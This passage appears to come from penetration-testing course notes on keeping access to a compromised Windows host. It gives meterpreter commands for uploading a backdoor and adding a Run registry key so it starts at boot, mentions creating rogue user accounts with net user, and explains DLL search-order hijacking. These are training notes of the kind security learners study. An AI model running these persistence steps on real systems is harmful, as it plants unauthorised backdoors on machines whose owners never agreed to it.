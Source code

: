   - Manual Installation
    Supposed we crafted our own backdoor with **msfvenom** or any other tool such as [Veil][https://github.com/Veil-Framework/] or [BDF][https://github.com/secretsquirrel/the-backdoor-factory]. Here are the commands to upload, and edit the Registry Keys on your target machine with meterpreter: (see img-155 for results)
      1. Upload the file into the victim machine:
          ```
          upload [path_to_backdoor_file] [path_on_target]
          ```
          Example:
          ```
          upload /root/my_bd.exe D:\\windows
          ```

      2. Edit the Windows Registry Key with the reg command, in order to load your file at startup:
          ```
          reg setval -k [registry_key_path] -d [value_of_the_key] -v [name_of_the_key]
          ```
          Example:
          ```
          reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "C:\Windows\my_bd.exe" -v bd_name
          ```

3. New Users      
    An easy way to create a new user in the system is by running `net user` and `net localgroup` commands.

    Once you create a new user for yourself, you have to join groups that allow you access to services such as RDP or Telnet and so on.

    We have already seen this in the previous sldies, so we will jump over these steps.

    Another method we can use for maintaining access in many cases, but alsod for privilege escalation in other, is known as DLL Hijacking, [DLL Preloading][https://support.microsoft.com/en-us/help/2389418/secure-loading-of-libraries-to-prevent-dll-preloading-attacks], or Insecure Library Loading

    **DLL Hijacking/Preloading**
    DLL Hijacking allow us the ability to abuse a built-in behavior in the way that executables, when launched, search for Dynamic Link Libraries (DLLs) to import.
    This behavior is known as [DLL Search Order][https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx].

    When a program is launched, the DLL Search Order in most cases is as follows:
      1. The directory from which the application was launched
      2. The `C:\Windows\System32` directory
      3. The 16-bit Windows system directory (i.e, `C:\windows\system`)
      4. The Windows directory (`C:\windows`)
      5. The current directory at the time of execution
      6. Any directories specified by the %PATH% environment variable

    As an example to help clarify, let's briefly revisit [a recent case][https://packetstormsecurity.com/files/146325/msskype-dllhijack.txt] of DLL Hijacking in Microsoft's popular communication software, Skype, which when exploited, resulted in a low-privileged user obtaining SYSTEM-level privileges.  
